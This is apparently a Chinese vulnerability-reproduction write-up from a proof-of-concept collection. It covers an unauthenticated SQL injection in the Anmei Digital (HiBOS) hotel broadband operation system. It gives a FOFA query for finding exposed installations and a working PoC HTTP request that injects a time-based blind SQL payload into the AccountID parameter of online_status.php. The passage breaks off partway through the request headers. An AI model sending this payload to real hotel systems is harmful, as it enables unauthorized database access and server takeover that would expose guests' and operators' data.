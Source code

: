 
# 安美数字酒店宽带运营系统 SQL注入漏洞复现

### 0x01 产品简介

HiBOS酒店宽带运营系统隶属于安美世纪（北京）科技有限公司开发的一套酒店宽带管理系统。

### 0x02 漏洞概述

 安美数字酒店宽带运营系统 online\_status.php、language.php等接口处存在SQL注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="安美数字-酒店宽带运营系统"

![](assets/1701746621-db4a9f7884414ec471a0ecde89c6b946.png)

### 0x04 漏洞复现 

**PoC-1**

```cobol
GET /manager/frontdesk/online_status.php?AccountID=1%27+AND+%28SELECT+6097+FROM+%28SELECT%28SLEEP%285%29%29%29ClPT%29--+lMyr HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Conn
```
